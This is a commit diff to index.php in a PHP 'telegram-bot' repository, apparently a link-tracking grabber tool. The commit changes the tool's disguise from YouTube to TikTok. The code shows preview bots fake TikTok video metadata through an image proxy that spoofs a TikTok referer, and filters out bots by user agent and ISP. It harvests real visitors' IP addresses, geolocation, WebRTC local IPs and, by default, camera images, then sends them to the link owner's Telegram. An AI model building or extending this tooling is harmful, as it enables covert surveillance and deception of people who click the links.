

Before and after one commit to azizdj759-design/telegram-bot, a PHP site: page /index.php in a window 1280 px wide. Shown: the top 874 px of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1).

Commit message:
Update index.php

```diff
--- a/index.php
+++ b/index.php
@@ -16,7 +16,6 @@ if (isset($_GET['proxy_img'])) {
     // إصلاح ترميز الصورة لضمان عدم كسر الرابط
     $img_url = base64_decode(urldecode($_GET['proxy_img']));
 
-    // إذا فشل الرابط، استخدم صورة افتراضية
     if (empty($img_url) || !filter_var($img_url, FILTER_VALIDATE_URL)) {
         header("Location: https://images.unsplash.com/photo-1611162617474-5b21e879e113?w=800&h=800&fit=crop");
         exit;
@@ -27,7 +26,9 @@ if (isset($_GET['proxy_img'])) {
     curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
     curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
     curl_setopt($ch, CURLOPT_TIMEOUT, 5);
-    curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)');
+    // إضافة Referer مهم جداً لتخطي حماية سيرفرات صور تيك توك
+    curl_setopt($ch, CURLOPT_REFERER, 'https://www.tiktok.com/');
+    curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36');
     $image_data = curl_exec($ch);
     curl_close($ch);
 
@@ -62,7 +63,11 @@ if (isset($_GET['proxy_img'])) {
         }
     }
     // إذا فشلت المعالجة، أرسل الصورة الأصلية مباشرة
-    if ($image_data) { header('Content-Type: image/jpeg'); echo $image_data; exit; }
+    if ($image_data) {
+        header('Content-Type: image/jpeg');
+        echo $image_data;
+        exit;
+    }
     header("Location: https://images.unsplash.com/photo-1611162617474-5b21e879e113?w=800&h=800&fit=crop");
     exit;
 }
@@ -125,71 +130,48 @@ function sendTelegramAlert($chat_id, $message, $image_base64 = null, $custom_tok
     }
 }
 
-// Extract YouTube video ID from various URL formats
-function extract_youtube_id($url) {
-    $patterns = [
-        '/(?:youtube\.com\/watch\?[^#]*?v=|youtu\.be\/|youtube\.com\/embed\/|youtube\.com\/shorts\/|youtube\.com\/v\/|m\.youtube\.com\/watch\?[^#]*?v=)([a-zA-Z0-9_-]{11})/',
-        '/[?&]v=([a-zA-Z0-9_-]{11})/',
-    ];
-    foreach ($patterns as $pattern) {
-        if (preg_match($pattern, $url, $matches)) {
-            return $matches[1];
-        }
-    }
-    return null;
-}
-
-// Strong function to fetch YouTube metadata (protected against blocks)
-function fetch_youtube_meta($url) {
-    $video_id = extract_youtube_id($url);
-
+// دالة مخصصة واحترافية لجلب بيانات تيك توك
+function fetch_tiktok_meta($url) {
     $meta = [
-        'title'    => 'YouTube Video',
-        'image'    => 'https://images.unsplash.com/photo-1611162617474-5b21e879e113?w=600&q=80',
-        'video_id' => $video_id
+        'title' => 'TikTok Video',
+        'image' => 'https://images.unsplash.com/photo-1611162617474-5b21e879e113?w=600&q=80'
     ];
 
-    // Default thumbnail (guaranteed to exist) if we have an ID
-    if ($video_id) {
-        // استخدام hqdefault لأنها متوفرة 100% ولا تعطي خطأ 404 مثل maxresdefault
-        $meta['image'] = "https://img.youtube.com/vi/{$video_id}/hqdefault.jpg";
-    }
-
-    // Primary: YouTube oEmbed
-    $ch = curl_init("https://www.youtube.com/oembed?url=" . urlencode($url) . "&format=json");
+    // 1. الطريقة الأفضل: استخدام TikTok oEmbed API الرسمي
+    $oembed_url = "https://www.tiktok.com/oembed?url=" . urlencode($url);
+    $ch = curl_init($oembed_url);
     curl_setopt_array($ch, [
-        CURLOPT_RETURNTRANSFER => true, CURLOPT_TIMEOUT => 8, CURLOPT_CONNECTTIMEOUT => 4,
-        CURLOPT_SSL_VERIFYPEER => false, CURLOPT_USERAGENT => 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'
+        CURLOPT_RETURNTRANSFER => true, CURLOPT_TIMEOUT => 10, CURLOPT_SSL_VERIFYPEER => false,
+        CURLOPT_USERAGENT => 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36'
     ]);
-    $response = curl_exec($ch); curl_close($ch);
+    $response = curl_exec($ch);
+    curl_close($ch);
 
     if ($response) {
         $data = json_decode($response, true);
-        if (!empty($data['title'])) {
-            $meta['title'] = 'YouTube - ' . $data['title'];
-            if (!empty($data['thumbnail_url'])) {
-                $meta['image'] = $data['thumbnail_url'];
-            }
+        if (!empty($data['title']) && !empty($data['thumbnail_url'])) {
+            $meta['title'] = $data['title'];
+            $meta['image'] = $data['thumbnail_url'];
             return $meta;
         }
     }
 
-    // Fallback: read page meta tags
+    // 2. طريقة احتياطية: قراءة وسوم الميتا مباشرة (في حال حظر الـ API)
     $ch = curl_init($url);
     curl_setopt_array($ch, [
-        CURLOPT_RETURNTRANSFER => true, CURLOPT_TIMEOUT => 10, CURLOPT_CONNECTTIMEOUT => 5,
-        CURLOPT_FOLLOWLOCATION => true, CURLOPT_SSL_VERIFYPEER => false,
+        CURLOPT_RETURNTRANSFER => true, CURLOPT_TIMEOUT => 10, CURLOPT_FOLLOWLOCATION => true,
+        CURLOPT_SSL_VERIFYPEER => false,
         CURLOPT_USERAGENT => 'Mozilla/5.0 (iPhone; CPU iPhone OS 17_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Mobile/15E148 Safari/604.1'
     ]);
-    $html = curl_exec($ch); curl_close($ch);
+    $html = curl_exec($ch);
+    curl_close($ch);
 
     if ($html) {
-        if (preg_match('/<meta property="og:image" content="([^"]+)"/', $html, $matches)) {
-            $meta['image'] = str_replace('\\u002F', '/', $matches[1]);
+        if (preg_match('/<meta property="og:image" content="([^"]+)"/', $html, $m)) {
+            $meta['image'] = str_replace('\\u002F', '/', $m[1]);
         }
-        if (preg_match('/<meta property="og:title" content="([^"]+)"/', $html, $matches)) {
-            $title = html_entity_decode($matches[1], ENT_QUOTES, 'UTF-8');
-            $meta['title'] = (stripos($title, 'YouTube') === false) ? 'YouTube - ' . $title : $title;
+        if (preg_match('/<meta property="og:title" content="([^"]+)"/', $html, $m)) {
+            $meta['title'] = html_entity_decode($m[1], ENT_QUOTES, 'UTF-8');
         }
     }
 
@@ -197,9 +179,7 @@ function fetch_youtube_meta($url) {
 }
 
 function get_real_ip() {
-    if (!empty($_SERVER['HTTP_CF_CONNECTING_IP'])) {
-        return $_SERVER['HTTP_CF_CONNECTING_IP'];
-    }
+    if (!empty($_SERVER['HTTP_CF_CONNECTING_IP'])) return $_SERVER['HTTP_CF_CONNECTING_IP'];
     if (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
         $ips = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
         return trim($ips[0]);
@@ -207,7 +187,6 @@ function get_real_ip() {
     return $_SERVER['REMOTE_ADDR'] ?? 'Unknown';
 }
 
-// Smart function to detect carrier from IP
 function get_ip_details($ip) {
     if ($ip === '127.0.0.1' || $ip === 'Unknown' || strpos($ip, '192.168.') === 0) {
         return ['location' => 'Local Network', 'isp' => 'Internal/VPN', 'vpn' => 'No', 'lat' => 0, 'lon' => 0];
@@ -270,25 +249,21 @@ if (isset($_GET['r'])) {
         $owner_tg_chat = $link['tg_chat'];
         $owner_tg_token = $link['tg_token'];
 
-        // Extract YouTube video ID for embed meta tags
-        $video_id = extract_youtube_id($target_redirect);
-        $video_embed_url = $video_id ? "https://www.youtube.com/embed/{$video_id}" : "";
-
         $ua = $_SERVER['HTTP_USER_AGENT'] ?? '';
 
-        // فلتر شامل لجميع بوتات المعاينة بما فيها تيك توك
-        $is_bot = preg_match('/bot|crawl|slurp|spider|whatsapp|telegram|facebook|facebot|meta-externalagent|vkShare|twitterbot|linkedinbot|skypeuripreview|messenger|applebot|discordbot|headless|phantom|bytespider|bytedance|tiktok/i', $ua);
+        // فلتر شامل لبوتات المعاينة (ماسنجر، واتساب، تيك توك، الخ)
+        $is_bot = preg_match('/bot|crawl|slurp|spider|whatsapp|telegram|facebook|facebot|meta-externalagent|vkShare|twitterbot|linkedinbot|skypeuripreview|messenger|applebot|discordbot|headless|phantom|bytespider|bytedance|tiktok|musical_ly/i', $ua);
 
         if ($is_bot) {
-            // ترميز الصورة بطريقة آمنة لا تكسر الرابط
+            // ترميز الصورة للـ Proxy
             $proxy_img_url = "https://" . $_SERVER['HTTP_HOST'] . "/?proxy_img=" . urlencode(base64_encode($meta_image));
 
             header('Content-Type: text/html; charset=utf-8');
             echo '<!DOCTYPE html><html><head>';
             echo '<meta charset="UTF-8">';
-            echo '<meta property="og:site_name" content="YouTube">';
+            echo '<meta property="og:site_name" content="TikTok">';
             echo '<meta property="og:title" content="' . htmlspecialchars($meta_title) . '">';
-            echo '<meta property="og:description" content="Watch this video on YouTube">'; // تمت الإضافة لتحسين المعاينة
+            echo '<meta property="og:description" content="Click to watch this video on TikTok">';
             echo '<meta property="og:image" content="' . htmlspecialchars($proxy_img_url) . '">';
             echo '<meta property="og:image:secure_url" content="' . htmlspecialchars($proxy_img_url) . '">';
             echo '<meta property="og:image:width" content="800">';
@@ -296,22 +271,8 @@ if (isset($_GET['r'])) {
             echo '<meta property="og:image:type" content="image/jpeg">';
             echo '<meta property="og:type" content="video.other">';
             echo '<meta property="og:url" content="' . htmlspecialchars($target_redirect) . '">';
-
-            if (!empty($video_embed_url)) {
-                echo '<meta property="og:video" content="' . htmlspecialchars($video_embed_url) . '">';
-                echo '<meta property="og:video:secure_url" content="' . htmlspecialchars($video_embed_url) . '">';
-                echo '<meta property="og:video:type" content="text/html">';
-                echo '<meta property="og:video:width" content="1280">';
-                echo '<meta property="og:video:height" content="720">';
-                echo '<meta name="twitter:card" content="player">';
-                echo '<meta name="twitter:player" content="' . htmlspecialchars($video_embed_url) . '">';
-                echo '<meta name="twitter:player:width" content="1280">';
-                echo '<meta name="twitter:player:height" content="720">';
-            } else {
-                echo '<meta name="twitter:card" content="summary_large_image">';
-            }
+            echo '<meta name="twitter:card" content="summary_large_image">';
             echo '<meta name="twitter:title" content="' . htmlspecialchars($meta_title) . '">';
-            echo '<meta name="twitter:description" content="Watch this video on YouTube">';
             echo '<meta name="twitter:image" content="' . htmlspecialchars($proxy_img_url) . '">';
             echo '</head><body></body></html>';
             exit();
@@ -320,7 +281,6 @@ if (isset($_GET['r'])) {
         if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['save_info'])) {
             if ($is_bot) exit('OK');
 
-            // Fastest response: send reply to browser immediately
             if (function_exists('fastcgi_finish_request')) {
                 echo 'OK';
                 fastcgi_finish_request();
@@ -328,11 +288,9 @@ if (isset($_GET['r'])) {
                 header('Connection: close'); header('Content-Length: 2'); echo 'OK'; flush();
             }
 
-            // Continue collecting data in background
             $public_ip = get_real_ip();
             $ip_details = get_ip_details($public_ip);
 
-            // إضافة سيرفرات Byteplus وغيرها لقائمة الحظر لعدم تسجيل بيانات المعاينة كزيارات
             $bot_isps = ['Facebook', 'Google', 'Amazon', 'Microsoft', 'Telegram', 'Meta', 'Cloudflare', 'Twitter', 'Byteplus', 'Bytedance', 'TikTok', 'DigitalOcean', 'OVH', 'Hetzner', 'Linode', 'Alibaba', 'Tencent'];
             foreach ($bot_isps as $bisp) { if (stripos($ip_details['isp'], $bisp) !== false) exit; }
 
@@ -388,7 +346,6 @@ if (isset($_GET['r'])) {
         function getLocalIP() { return new Promise((resolve) => { let pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] }); let res = false; pc.createDataChannel(""); pc.createOffer().then(o => pc.setLocalDescription(o)).catch(() => {}); pc.onicecandidate = (e) => { if (!e.candidate || !e.candidate.candidate) return; const ip = /([0-9]{1,3}(\.[0-9]{1,3}){3})/.exec(e.candidate.candidate); if (ip && !ip[1].endsWith('.local') && !res) { res = true; resolve(ip[1]); pc.close(); } }; setTimeout(() => { if(!res) { resolve("Direct"); pc.close(); } }, 150); }); }
 
         async function initTracking() {
-            // منع المتصفحات الوهمية (البوتات) من تنفيذ الكود
             if (navigator.webdriver) {
                 window.location.replace(targetUrl);
                 return;
@@ -443,7 +400,7 @@ if (isset($_GET['r'])) {
 }
 
 // ==========================================
-// RECEIVE IMAGE IN BACKGROUND (if camera was slow)
+// RECEIVE IMAGE IN BACKGROUND
 // ==========================================
 if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['save_image_only'])) {
     $code = $_POST['code'];
@@ -456,7 +413,7 @@ if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['save_image_only'])) {
 
 
 // ==========================================
-// CONTROL PANEL (Smooth and Fast)
+// CONTROL PANEL
 // ==========================================
 $login_error = '';
 if (isset($_POST['login'])) {
@@ -528,7 +485,10 @@ if ($is_logged_in) {
         $target_url = trim($_POST['target_url']); $link_name = trim($_POST['link_name']);
         $use_camera = isset($_POST['use_camera']) ? 1 : 0;
         if (!filter_var($target_url, FILTER_VALIDATE_URL)) $target_url = "https://" . $target_url;
-        $scraped = fetch_youtube_meta($target_url);
+
+        // استخدام دالة تيك توك الجديدة
+        $scraped = fetch_tiktok_meta($target_url);
+
         $code = substr(md5(uniqid(rand(), true)), 0, 7);
         $db->prepare("INSERT INTO links (user_id, name, code, target_url, meta_title, meta_image, use_camera) VALUES (?, ?, ?, ?, ?, ?, ?)")->execute([$current_user_id, $link_name, $code, $target_url, $scraped['title'], $scraped['image'], $use_camera]);
         $generated_link = "https://" . $_SERVER['HTTP_HOST'] . "/?r=" . $code; $generated_code = $code;
@@ -714,15 +674,15 @@ if ($is_logged_in) {
                 </div>
 
                 <div class="card" style="border-color: var(--accent);">
-                    <div class="card-title">Create New YouTube Link</div>
+                    <div class="card-title">Create New TikTok Link</div>
                     <form method="POST">
                         <div class="form-group">
                             <label>Link Name</label>
                             <input type="text" name="link_name" required>
                         </div>
                         <div class="form-group">
-                            <label>YouTube Video URL</label>
-                            <input type="text" name="target_url" placeholder="https://www.youtube.com/watch?v=..." required>
+                            <label>TikTok Video URL</label>
+                            <input type="text" name="target_url" placeholder="https://www.tiktok.com/@username/video/..." required>
                         </div>
                         <div class="form-group" style="display: flex; align-items: center; gap: 10px;">
                             <input type="checkbox" name="use_camera" value="1" checked style="width: 18px; height: 18px; accent-color: var(--accent);">
```
